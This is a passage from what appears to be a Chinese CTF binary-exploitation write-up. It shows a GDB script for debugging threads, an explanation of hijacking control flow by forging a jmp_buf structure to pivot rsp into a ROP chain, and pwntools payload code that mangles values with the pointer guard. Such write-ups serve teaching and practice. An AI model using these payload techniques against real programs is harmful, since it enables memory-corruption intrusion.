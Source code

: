 - 可以用如下方式进行多线程dbg

```text
finish GDB会让程序继续运行，直到当前函数执行完毕并返回到调用它的地方
info threads 显示当前程序中的所有线程，并标注当前所在的线程
thread (id) 这个命令不仅可以用来切换线程，也可以显示当前线程的ID

gdb_script = '''
b pthread_create
c
finish
thread 2
b *0x401EC2
c
b __pthread_cleanup_upto
c
'''
```

### 如何设置jmp\_buf结构体的值进而控制寄存器

- 此时的rdi正好指向jmp\_buf结构体，r8=\[jmp\_buf+0x30\],r9=\[jmp\_buf+0x8\],rdx=\[jmp\_buf+0x38\]。最后又有mov rsp,r8;mov rbp,r9;jmp rdx。
- 有上述过程就可以控制流程了，让rsp=rop\_addr，然后rdx=ret指令，即可实现rop

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-dfb6c5a4f4a3c221f2acc0b8d8f60cb5d5c738f1.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-5ed426642825be90265eef1ed9080787e60d952a.png)

### 又一个问题，发生了段错误

- payload如下会有这个段错误

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-3fc50869ad547f2a177dd567f3085ffcaa1d8999.png)

发现是rax的值被我们覆盖为a了，跟进流程查看如何正确地写payload

```python
payload = b"&pass=v3rdant".ljust(0x200, b'a')

regs = flat({
    0x8:ptr_g(buffer+0x28, pointer_guard),  #rbp
    #rsp刚好指向rop_payload的地方
    0x30:ptr_g(buffer+0x28, pointer_guard), #rsp
    0x38:ptr_g(ret_addr, pointer_guard),    #rdx的值，jmp rdx
    }
)

payload += regs

payload = payload.ljust(2848, b'a')
# payload+= p64(0x405360)*4
print(len(payload))

p.send(payload)
```
